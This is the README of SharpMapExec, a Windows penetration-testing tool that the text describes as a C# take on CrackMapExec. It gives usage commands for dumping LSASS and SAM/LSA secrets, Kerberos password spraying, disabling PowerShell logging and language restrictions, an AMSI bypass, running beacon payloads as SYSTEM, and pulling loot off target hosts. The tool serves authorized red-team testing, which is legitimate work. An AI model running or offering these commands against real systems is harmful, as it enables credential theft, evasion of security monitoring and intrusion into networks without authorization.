 # SharpMapExec

**Forked version with CIDR support for /computername parameter**

A sharpen version of [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec). This tool is made to simplify penetration testing of networks and to create a swiss army knife that is made for running on Windows which is often a requirement during insider threat simulation engagements.



Besides scanning for access it can be used to identify vulnerable configurations and exfiltrate data. The idea for the data exfiltration modules is to execute the least amount of necessary code on the remote computer. To accomplish this, the tool will download all the secrets to the loot directory and parse them locally.



You can specify if you want to use Kerberos or NTLM authentication. If you choose Kerberos, the tool will create a sacrificial token and use [Rubeus](https://github.com/GhostPack/Rubeus) to import/ask for the ticket. If NTLM is specified, the tool will use [SharpKatz](https://github.com/b4rtik/SharpKatz) `SetThreadToken` or  `LogonUser` impersonation.

```
SharpMapExec.exe
  usage:

    --- Cim ---
        Need plaintext password or the /impersonate flag
        SharpMapExec.exe ntlm cim /user:USER /password:PASSWORD /computername:TARGET

       Available Cim modules
          /m:enable_winrm                             (Runs Enable-PSRemoting -Force)
          /m:disable_winrm                            (Runs Disable-PSRemoting -Force)
          /m:disable_pslockdown                       (Modify __PSLockdownPolicy registry to disable CLM)
          /m:disable_pslogging                        (Modify registry to disable PowerShell Logging)
          /m:check_pslockdown                         (Check __PSLockdownPolicy registry)
          /m:check_pslogging                          (Check PowerShell Logging registry)

    --- Reg32 ---
        SharpMapExec.exe ntlm reg32 /user:USER /ntlm:HASH /computername:TARGET
        SharpMapExec.exe kerberos reg32 </user:USER /password:PASSWORD /domain:DOMAIN /dc:DC | /ticket:TICKET.Kirbi>  /computername:TARGET

       Reg32 modules
          /m:disable_pslockdown                       (Modify __PSLockdownPolicy registry to disable CLM)
          /m:check_pslockdown                         (Check __PSLockdownPolicy registry)
          /m:check_pslogging                          (Check PowerShell Logging registry)

    --- Smb ---
        SharpMapExec.exe ntlm smb /user:USER /ntlm:HASH /domain:DOMAIN /computername:TARGET
        SharpMapExec.exe kerberos smb </user:USER /password:PASSWORD /domain:DOMAIN /dc:DC | /ticket:TICKET.Kirbi>  /computername:TARGET

       Smb modules
          /m:shares                                   (Scan for accessible Smb shares)

    --- WinRm ---
        SharpMapExec.exe ntlm winrm /user:USER /password:PASSWORD /domain:DOMAIN /computername:TARGET
        SharpMapExec.exe kerberos winrm </user:USER /rc4:HASH  /domain:DOMAIN /dc:DC | /ticket:TICKET.Kirbi>  /computername:TARGET

       WinRm modules
          /m:exec /a:whoami                           (Invoke-Command)
          /m:exec /a:C:\beacon.exe /system            (Invoke-Command as System)
          /m:comsvcs                                  (Dump & parse lsass)
          /m:secrets                                  (Dump and Parse Sam, Lsa, and System Dpapi blobs)
          /m:assembly /p:Rubeus.exe /a:dump           (Execute local C# assembly in memory)
          /m:assembly /p:beacon.exe /system           (Execute local C# assembly as System in memory)
          /m:assembly /p:getMailBox.exe /delegwalk    (Execute local C# assembly in all unique delegation processes in memory)
          /m:download /path:C:\file /destination:file (Download file from host)
          /m:upload   /path:C:\file /destination:file (Upload file to host)

    --- Domain ---
        SharpMapExec.exe kerbspray /users:USERS.TXT /passwords:PASSWORDS.TXT /domain:DOMAIN /dc:DC
        SharpMapExec.exe tgtdeleg

    --- Ldap ---
        SharpMapExec.exe ntlm domain /user:USER /password:PASSWORD /domain:DOMAIN /dc:DC /m:MODULE
        SharpMapExec.exe kerberos ldap </user:USER /password:PASSWORD /domain:DOMAIN /dc:DC /m:MODULE | /ticket:TICKET.Kirbi>

       Ldap modules
          /m:spraydata                                (Download user and password policy)
```

### Smb

Can be used to scan for admin access, accessible Smb shares, Smb version and relay signing.

````
/m:shares                                  (Scan enumerated shares for access)
````

### WinRm

The beast. It has built-in Amsi bypass, JEA language breakout, JEA function analysis. Can be used for code execution, scaning for PsRemote access, vulnerable JEA endpoints, and data exfiltration.

````
/m:exec /a:whoami                           (Invoke-Command)
/m:exec /a:C:\beacon.exe /system            (Invoke-Command as System)
/m:comsvcs                                  (Dump Lsass Process)
/m:secrets                                  (Dump and Parse Sam, Lsa, and System Dpapi blobs)
/m:assembly /p:Rubeus.exe /a:dump           (Execute Local C# Assembly in memory)
/m:assembly /p:beacon.exe /system           (Execute Local C# Assembly as System in memory)
/m:download /path:C:\file /destination:file (Download File from Host)
````

### Domain

Currently supports domain password spraying and to create a TGT for the current user that can be used with the `/ticket` parameter to get the current context.

### Ldap

Download necessary data before pw spraying

```
/m:spraydata                                (Download user and password policy)
```



### Example usage

For easy or mass in-memory execution of C# assemblies

![](images/mass_assembly.png)

Kerberos password spraying then scanning for local admin access

![](images/spray+admin.png)

This project supports scanning JEA endpoints and will analyze source code of non default commands and check if the endpoint was not configured for `no-language` mode.

![](images/jea.png)

Discover local admin password reuse with an NT hash.

![](images/localadmin.png)

Mass dump Lsass process with built-in Microsoft signed DLL and saves it to the `loot` folder

![](images/lsassdump.png)

Executes in all delegation processes sorted by unique by users

![](images/delegwalk.png)

Scan for SMB signing and SMBv1

![](images/smbvscan.png)

And much more!

Some scenarios with Kerberos will require you to sync your clock with the DC and set the DNS

```powershell
net time \\DC01.hackit.local /set
Get-NetAdapter ethernet0* | Set-DnsClientServerAddress -ServerAddresses @('192.168.1.10')
```





### Acknowledgments

Projects that helped or are existing in this tool

* [Rubeus](https://github.com/GhostPack/Rubeus)              [@Harmj0y](https://twitter.com/harmj0y)
* [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)      [@Harmj0y](https://twitter.com/harmj0y)
* [SharpKatz](https://github.com/b4rtik/SharpKatz)         [@b4rtik](https://twitter.com/b4rtik)
* [Amsi.Fail](https://github.com/Flangvik/AMSI.fail)           [@Flangvik](https://twitter.com/Flangvik)
* [SharpSecDump](https://github.com/G0ldenGunSec/SharpSecDump) [@G0ldenGunSec](https://twitter.com/G0ldenGunSec)
* [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)  [@byt3bl33d3r](https://twitter.com/byt3bl33d3r)
* [Pingcastle ](https://github.com/vletoux/pingcastle)         [@mysmartlogon](https://twitter.com/mysmartlogon)
* [SharpSpray](https://github.com/jnqpblc/SharpSpray)

